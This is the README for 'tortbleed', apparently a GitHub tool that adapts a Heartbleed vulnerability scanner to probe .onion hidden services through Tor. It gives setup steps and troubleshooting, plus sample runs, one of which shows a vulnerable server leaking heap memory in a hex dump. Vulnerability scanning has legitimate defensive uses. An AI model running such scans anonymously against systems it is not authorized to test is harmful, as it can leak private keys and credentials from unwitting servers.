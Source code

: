 tortbleed
=========

Modification of Samiux's (http://samiux.blogspot.com/) Heartbleed Reload (from 4/11) scanner to allow direct scanning of .onion addresses.

==========System Requirements==========

- SocksiPy ( Available here: https://github.com/mikedougherty/SocksiPy ).

- urllib2 ( Available here, amongst others for python2.7:
  https://github.com/python-git/python/blob/master/Lib/urllib2.py ).

- socket ( Available here, amongst others for python2.7:
  https://github.com/python-git/python/blob/master/Lib/socket.py ).

- A local tor server configured to allow you to connect through it to endpoints.  You do not
  necessarily need to configure it as a relay, so long as your IP is configured in a
  'SocksPolicy accept' rule.  Being configured as a relay will not have a negative impact,
  though, should you have that set-up.

- Python 2.7, as this was the only version I tested this script against.  Please feel free to
  modify it to work with whatever version you might be using other than 2.7.

==========Setup & Usage==========

You must do the following, or this scanner just wont work:

1. Ensure you have installed and setup Tor on a system accessible to you to ensure you can
   bounce through it via this script.

2. Edit your copy of torwrapper.py to suit your Tor instance ip / hostname and port to access,
   on lines 11 & 12.

3. Copy the edited torwrapper.py file to your Python site-packages directory.

4. Ensure you have installed the SocksiPy, socket, and urllib2 site-packages properly.

Once those steps are completed, you can then run the scanner.  The usage output is below, along
with an example with output:
```
$ ./tortbleed.py -c 1 3g2upl4pq6kufc4m.onion
Starting Tor Daemon & Connecting to Tor Network...
Connected to Tor Relay.
My ip is 109.163.234.7 (edwardsnowden0.torservers.net)

====================================
Server: 3g2upl4pq6kufc4m.onion
Run number: 1
====================================

Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 2483
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
Unexpected EOF receiving record header - server closed connection
No heartbeat response received, server likely not vulnerable.

====================================

Done, exiting.
```
```
$ ./tortbleed.py -c 1 192.168.1.43
Connecting to non-onion address...

====================================
Server: 192.168.1.43
Run number: 1
====================================

Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 58
 ... received message: type = 22, ver = 0302, length = 437
 ... received message: type = 22, ver = 0302, length = 397
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
				--snipped output remaining output for readme brevity--

WARNING: server returned more data than it should - server is vulnerable!

====================================

Done, exiting.
```
==========Troubleshooting==========

You may get tracebacks because I haven't included any error handling.
The 3 most common I found during testing are explained below.

1 - socks.Socks5Error: ((2, 'connection not allowed by ruleset'),)
This occurs when the Tor Relay you are connected to for this particular scan doesn't allow
outgoing connections to the .onion you are attempting to scan.  Most often, attempting another
run of the same command will connect you to another Relay and allow this to go through.  If,
however, you hit the same error, another few attempts may be required.

2 - socks.Socks5Error: ((91, 'request rejected or failed'),)
This happens when connection to the .onion endpoint fails to successfully complete through the
Tor Relay you are connected through.  This can be for a number of reasons, and may be worth
trying once more.  Same result usually means problems with the .onion server (either not having
the port you're attempting to scan on enabled, or other connection-related issues).

3 - "Help, there's lag in the data returned from the server for .onion URL's!" 
This is due to the delay introduced in general when transmitting / receiving over the Tor network.
Additionally, some exit nodes / relays introduce a bandwidth throttle for outgoing traffic to
limit the impact on the non-Tor network traffic of the host.  This is not the fault of the script,
but rather of the Tor network and/or Relay operator.  Try running the script again to potentially
hit a new exit node / relay and potentially improve that performance (or worsen it! :P)

Good luck!

Mike <michael@prattlecorp.com>

